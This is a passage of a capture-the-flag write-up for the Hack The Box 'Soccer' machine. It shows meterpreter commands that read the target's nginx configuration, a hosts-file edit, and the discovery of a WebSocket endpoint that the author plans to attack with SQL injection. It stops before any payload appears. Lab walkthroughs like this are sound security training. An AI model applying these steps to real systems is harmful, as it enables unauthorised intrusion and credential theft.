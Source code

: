 ### Escalate to `player` user using credentials discovered via SQL injection in the WebSocket application

#### List all virtual hosts running by nginx
```
meterpreter > ls /etc/nginx/sites-available
Listing: /etc/nginx/sites-available
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  442   fil   2022-12-01 14:48:16 +0100  default
100644/rw-r--r--  332   fil   2022-11-17 09:39:14 +0100  soc-player.htb
```

#### Identify `soc-player.soccer.htb` running at `http://localhost:3000`
```
meterpreter > cat /etc/nginx/sites-available/soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

#### Add `soc-player.soccer.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ echo "$TARGET soc-player.soccer.htb" | sudo tee -a /etc/hosts
10.129.217.215 soc-player.soccer.htb
```

#### Identify websocket `ws://soc-player.soccer.htb:9091` connection established in JS
After signup / login, in JS of `http://soc-player.soccer.htb/check`, we can spot:
```
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
```
Which accepts following JSON as a message:
```json
{
  "id": msg
}
```
We will try to inject SQL in `id`.
